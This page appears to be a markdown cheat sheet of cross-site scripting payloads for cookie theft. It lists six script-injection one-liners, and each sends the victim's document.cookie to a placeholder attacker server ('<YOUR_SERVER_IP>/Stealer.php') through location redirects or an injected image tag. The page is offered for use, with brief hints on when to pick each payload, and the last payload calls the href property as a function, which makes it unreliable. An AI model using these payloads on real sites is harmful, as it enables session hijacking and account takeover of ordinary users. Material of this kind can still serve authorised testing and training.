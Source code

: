 * <mark style="color:purple;">Use in scenarios where you can  modify the</mark> <mark style="color:orange;">**`document.location`**</mark> <mark style="color:purple;">and send cookies:</mark>

{% code overflow="wrap" %}
```html
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```
{% endcode %}

* <mark style="color:purple;">Inject when you need to send cookies via</mark> <mark style="color:orange;">**`document.location.href`**</mark> <mark style="color:purple;">and trigger a</mark> <mark style="color:orange;">**`redirect`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```html
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```
{% endcode %}

* <mark style="color:purple;">Use to</mark> <mark style="color:orange;">**`dynamically write an image`**</mark> <mark style="color:purple;">that sends cookies:</mark>

{% code overflow="wrap" %}
```bash
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
```
{% endcode %}

* <mark style="color:purple;">Use when  you need to</mark> <mark style="color:orange;">**`assign a location redirect`**</mark> <mark style="color:purple;">with cookies:</mark>

{% code overflow="wrap" %}
```html
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```
{% endcode %}

* <mark style="color:purple;">Similar to the previous one, use when you need to access</mark> <mark style="color:orange;">**`window.location`**</mark> <mark style="color:purple;">properties dynamically:</mark>

{% code overflow="wrap" %}
```html
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```
{% endcode %}

* <mark style="color:purple;">Use when you need to modify</mark> <mark style="color:orange;">**`window.location.href`**</mark> <mark style="color:purple;">dynamically:</mark>

{% code overflow="wrap" %}
```html
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```
{% endcode %}
